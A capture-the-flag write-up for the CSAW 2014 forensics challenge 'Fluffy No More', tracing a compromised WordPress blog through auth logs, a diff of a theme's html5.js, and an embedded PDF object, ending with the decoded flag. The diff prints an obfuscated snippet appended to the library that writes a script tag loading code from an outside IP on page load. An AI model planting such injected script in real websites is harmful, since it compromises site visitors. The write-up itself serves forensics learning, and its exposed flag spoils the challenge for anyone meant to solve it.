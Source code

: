 # Fluffy No More - Forensics 300

**Description:**

> OH NO WE'VE BEEN HACKED!!!!!! -- said the Eye Heart Fluffy Bunnies Blog owner. Life was grand for the fluff fanatic until one day the site's users started to get attacked! Apparently fluffy bunnies are not just a love of fun furry families but also furtive foreign governments. The notorious "Forgotten Freaks" hacking group was known to be targeting high powered politicians. Were the cute bunnies the next in their long list of conquests!??
>
> Well... The fluff needs your stuff. I've pulled the logs from the server for you along with a backup of its database and configuration. Figure out what is going on!
>
> Written by brad_anton

## Write-up

So in the auth log there’s some interesting stuff
```
Sep 17 19:18:11 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/log/apache2 ; USER=root ; COMMAND=/bin/mv access.log error.log other_vhosts_access.log /var/log/apache2/
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
```

Diffing two versions of the changed file shows some added code

```
[12:30:23] $ diff ~/Downloads/CSAW2014-FluffyNoMore-v0.1/webroot/www/html/wp-content/themes/twentythirteen/js/html5.js ~/Downloads/CSAW2014-FluffyNoMore-v0.1/webroot/www/html/wp-content/themes/twentyfourteen/js/html5.js
8c8,9
< if(g)return a.createDocumentFragment();for(var b=b||i(a),c=b.frag.cloneNode(),d=0,e=m(),h=e.length;d<h;d++)c.createElement(e[d]);return c}};l.html5=e;q(f)})(this,document); var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
---
```

Which means they are injecting a script tag to: ```http://128.238.66.100/analytics.js```
```
> if(g)return a.createDocumentFragment();for(var b=b||i(a),c=b.frag.cloneNode(),d=0,e=m(),h=e.length;d<h;d++)c.createElement(e[d]);return c}};l.html5=e;q(f)})(this,document);
```

Loading the script ourselves, we are able to see this link to a pdf file.
```
http://128.238.66.100/announcement.pdf
```

That pdf had an embedded file in it.

Get this tool: http://blog.didierstevens.com/programs/pdf-tools/
```
./pdf-parser.py --object 8 --filter --raw announcement.pdf
```

That gives you:
```
obj 8 0
 Type: /EmbeddedFile
 Referencing: 
 Contains stream

  <<
    /Length 212
    /Type /EmbeddedFile
    /Filter /FlateDecode
    /Params
      <<
        /Size 495
        /Checksum <7f0104826bde58b80218635f639b50a9>
      >>
    /Subtype /application/pdf
  >>

 var _0xee0b=["\x59\x4F\x55\x20\x44\x49\x44\x20\x49\x54\x21\x20\x43\x4F\x4E\x47\x52\x41\x54\x53\x21\x20\x66\x77\x69\x77\x2C\x20\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x20\x6F\x62\x66\x75\x73\x63\x61\x74\x69\x6F\x6E\x20\x69\x73\x20\x73\x6F\x66\x61\x20\x6B\x69\x6E\x67\x20\x64\x75\x6D\x62\x20\x20\x3A\x29\x20\x6B\x65\x79\x7B\x54\x68\x6F\x73\x65\x20\x46\x6C\x75\x66\x66\x79\x20\x42\x75\x6E\x6E\x69\x65\x73\x20\x4D\x61\x6B\x65\x20\x54\x75\x6D\x6D\x79\x20\x42\x75\x6D\x70\x79\x7D"];var y=_0xee0b[0];
```

Loading that variable into nodejs to decode:
```
[ 'YOU DID IT! CONGRATS! fwiw, javascript obfuscation is sofa king dumb  :) key{Those Fluffy Bunnies Make Tummy Bumpy}' ]
```
